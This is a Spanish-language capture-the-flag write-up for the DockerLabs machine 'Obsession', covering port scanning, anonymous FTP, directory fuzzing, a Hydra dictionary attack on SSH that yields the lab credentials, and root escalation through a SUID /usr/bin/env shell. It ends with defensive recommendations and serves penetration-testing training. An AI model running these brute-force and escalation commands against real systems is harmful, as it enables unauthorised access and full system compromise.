# Obsession - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas reales sin autorización expresa.

## Objetivo

Resolver la máquina **Obsession** siguiendo una metodología básica:

1. Desplegar la máquina vulnerable.
2. Identificar servicios expuestos.
3. Revisar FTP anónimo.
4. Enumerar la web.
5. Obtener un usuario válido.
6. Realizar un ataque de diccionario controlado contra SSH.
7. Acceder al sistema.
8. Escalar privilegios mediante un binario SUID mal configurado.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | Obsession |
| Dificultad | Muy fácil |
| Servicios | FTP, SSH, HTTP |
| IP de ejemplo | 172.17.0.2 |
| Vector principal | FTP anónimo + enumeración web + Hydra SSH |
| Escalada | SUID en `/usr/bin/env` |

## 1. Despliegue de la máquina

Se ejecuta el script de despliegue de DockerLabs y se obtiene la IP asignada al contenedor.

```bash
sudo bash auto_deploy.sh obsession.tar
```



## 2. Preparación del entorno

Se comprueba la carpeta de trabajo y los archivos de la práctica.

```bash
cd ~/Desktop/Laboratorio/obsession
ls
```



## 3. Reconocimiento con Nmap

Se escanean todos los puertos para identificar servicios disponibles.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Servicios relevantes detectados:

| Puerto | Servicio | Uso en la práctica |
|---|---|---|
| 21/tcp | FTP | Enumeración de archivos expuestos. |
| 22/tcp | SSH | Acceso inicial. |
| 80/tcp | HTTP | Enumeración web. |



## 4. Enumeración FTP

El servicio FTP permite acceso anónimo, por lo que se revisa su contenido.

```bash
ftp 172.17.0.2
# Usuario: anonymous
# Contraseña: anonymous
ls
```



Se descargan los archivos encontrados para analizarlos localmente.

```bash
get chat-gonza.txt
get pendientes.txt
```



## 5. Enumeración web

Después de revisar la web principal, se realiza fuzzing de directorios para localizar rutas ocultas.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Durante la enumeración se localizan rutas interesantes como `/backup` e `/important`, que permiten obtener información útil para continuar.



## 6. Preparación del diccionario

Se prepara `rockyou.txt` para usarlo en el ataque de diccionario controlado.

```bash
cd /usr/share/wordlists
sudo gzip -d rockyou.txt.gz
```



## 7. Ataque controlado contra SSH

Con el usuario identificado durante la enumeración, se prueba un diccionario de contraseñas contra SSH.

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Resultado esperado del laboratorio:

```text
Usuario: russoski
Contraseña: iloveme
```



## 8. Acceso inicial

Se accede por SSH con el usuario encontrado.

```bash
ssh russoski@172.17.0.2
whoami
id
```



## 9. Enumeración para escalada de privilegios

Se buscan binarios con bit SUID activo.

```bash
find / -perm -4000 -type f 2>/dev/null
```



Aparece `/usr/bin/env` con permisos SUID, lo que permite ejecutar una shell privilegiada.

```bash
/usr/bin/env /bin/bash -p
```



## 10. Evidencia final

Se comprueba que se ha obtenido acceso como `root`.

```bash
whoami
id
hostname
pwd
ls -la
```



## Problemas frecuentes

| Problema | Posible causa | Solución |
|---|---|---|
| No entra en FTP | Credenciales incorrectas | Probar `anonymous:anonymous`. |
| Gobuster no encuentra rutas | Wordlist inadecuada | Usar una wordlist de directorios más completa. |
| Hydra no encuentra contraseña | Usuario incorrecto | Revisar archivos y rutas web encontradas. |
| `/usr/bin/env` no da root | No tiene SUID | Confirmar permisos con `ls -l /usr/bin/env`. |

## Medidas defensivas

- Deshabilitar FTP anónimo.
- No publicar archivos de respaldo en rutas web.
- Usar contraseñas robustas y bloqueo de intentos fallidos.
- Auditar periódicamente permisos SUID.
- Revisar servicios expuestos y aplicar el principio de mínimo privilegio.

## Resumen final

La máquina combina varios fallos frecuentes: FTP anónimo, exposición de información, credenciales débiles y un binario SUID peligroso. La resolución muestra cómo pequeños errores encadenados pueden terminar en compromiso total del sistema.
